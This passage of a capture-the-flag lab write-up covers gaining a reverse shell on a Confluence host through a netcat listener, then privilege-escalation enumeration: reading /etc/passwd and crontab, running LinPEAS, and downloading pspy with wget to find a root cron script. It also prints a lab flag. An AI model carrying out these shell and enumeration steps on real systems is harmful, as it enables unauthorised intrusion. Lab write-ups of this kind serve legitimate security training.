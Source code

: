 And we get a shell:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.41] 48320
/bin/sh: 0: can't access tty; job control turned off
$ whoami
confluence
```

We get a proper shell and go find our first flag (where it usually is):

```
confluence@flu:/opt/atlassian/confluence/bin$ cd /home/confluence
cd /home/confluence
confluence@flu:/home/confluence$ cat local.txt
cat local.txt
402b5b8ff7c7e2f14f05985166fe4739
```

## Privilege Escalation

We run the usual commands `sudo -l`, `cat /etc/passwd`, `cat /etc/crontab`, check for SUID/GUID binaries and so on...

We run LinPEAS to ensure we didn't miss anything. LinPEAS also doesn't raise anything.

We run pspy. I donwload it from the internet to `/tmp/pspy` with `wget`, allow executing it `chmod +x /tmp/pspy`, and run it with `/tmp/pspy`...

Some interesting processes running as root... using something in the `/opt/` dir... that is promising:

```
2024/03/10 16:52:01 CMD: UID=0     PID=2351   | /bin/sh -c /opt/log-backup.sh 
2024/03/10 16:52:01 CMD: UID=0     PID=2353   | /bin/bash /opt/log-backup.sh 
```

The script doesn't do anything interesting...

```
$ cat log-backup.sh
#!/bin/bash

CONFLUENCE_HOME="/opt/atlassian/confluence/"
LOG_DIR="$CONFLUENCE_HOME/logs"
BACKUP_DIR="/root/backup"
TIMESTAMP=$(date "+%Y%m%d%H%M%S")

# Create a backup of log files
cp -r $LOG_DIR $BACKUP_DIR/log_backup_$TIMESTAMP

tar -czf $BACKUP_DIR/log_backup_$TIMESTAMP.tar.gz $BACKUP_DIR/log_backup_$TIMESTAMP

# Cleanup old backups
find $BACKUP_DIR -name "log_backup_*"  -mmin +5 -exec rm -rf {} \;
```
